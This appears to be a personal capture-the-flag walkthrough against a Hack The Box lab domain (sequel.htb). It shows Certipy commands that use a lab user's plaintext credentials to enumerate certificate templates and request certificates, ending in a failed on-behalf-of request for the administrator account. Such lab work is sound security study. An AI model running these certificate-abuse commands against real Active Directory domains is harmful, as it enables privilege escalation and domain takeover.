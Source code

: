 hmmmmm let me restart and see if certpy will help me get a cert from jump for ryan...
`source certenv/bin/activate`

`pip install certipy-ad`

```
certipy find \
    -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' \
    -dc-ip '10.10.11.202' -text
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sequel-DC-CA'
[*] Checking web enrollment for CA 'sequel-DC-CA' @ 'dc.sequel.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250728213107_Certipy.txt'
[*] Wrote text output to '20250728213107_Certipy.txt'
```
Nothing in there as far as i can tell.....
lets try getting ryan's cert and then req admin cert:
```
certipy req -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' \
-ca sequel-DC-CA -template UserAuthentication -out ryan -dc-ip 10.10.11.202

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'ryan.pfx'
[*] Wrote certificate and private key to 'ryan.pfx'
```

```
certipy req -pfx ryan.pfx -on-behalf-of administrator@sequel.htb \
-ca sequel-DC-CA -template UserAuthentication -out administrator -dc-ip 10.10.11.202

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[-] Username is not specified
[*] Requesting certificate via RPC
[*] Request ID is 0
[-] Got unknown error while requesting certificate: (unknown error code: 0x1): 
Would you like to save the private key? (y/N): y
[*] Saving private key to 'administrator.key'
[*] Wrote private key to 'administrator.key'
[-] Failed to request certificate
```
